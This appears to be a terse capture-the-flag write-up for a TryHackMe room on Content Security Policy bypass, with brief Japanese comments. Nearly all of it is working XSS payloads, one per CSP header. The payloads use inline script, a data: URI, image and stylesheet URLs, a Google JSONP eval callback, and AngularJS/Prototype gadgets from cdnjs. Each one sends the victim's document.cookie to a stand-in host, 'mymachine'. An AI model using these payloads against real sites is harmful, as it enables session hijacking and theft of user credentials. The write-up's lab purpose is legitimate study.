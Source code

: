 # Content Security Policy  writeup
https://tryhackme.com/room/csp

## Task7

### #1
```HTTP
Content-Security-Policy: default-src * 'unsafe-inline';
```

```html
<script>fetch(`http://mymachine/${document.cookie}`)</script>
```

### #2
```HTTP
Content-Security-Policy: default-src *; style-src 'self'; script-src data:
```

```html
<script src="data:application/javascript,fetch(`http://mymachine/${document.cookie}`)"></script>
```

Content-Type指定は無くてもよい模様。
```html
<script src="data:,fetch(`http://mymachine/${document.cookie}`)"></script>
```

### #3
```HTTP
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; 
```

```html
<img id="hoge" src=""><script>document.getElementById('hoge').src="http://mymachine/" + document.cookie;</script>
```

### #4
```HTTP
Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'
```

```html
<link id="hoge" rel="stylesheet" href="">
<script nonce="abcdef">document.getElementById('hoge').href="http://mymachine/" + document.cookie;</script>
```

### #5
```HTTP
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com
```

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=eval(window.open('http%3A%2F%2Fmymachine%2F'.concat(document.cookie)))"></script>
```

### #6
```HTTP
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com
```

```html
<div class=""ng-app ng-csp>
  <base href=//cdnjs.cloudflare.com/ajax/libs/>
  <script src=angular.js/1.8.1/angular.js></script>
  <script src=prototype/1.7.2/prototype.js></script>
  {{$on.curry.call().console.log($on.curry.call().location=("http://mymachine/"+$on.curry.call().document.cookie))}}
</div>
```





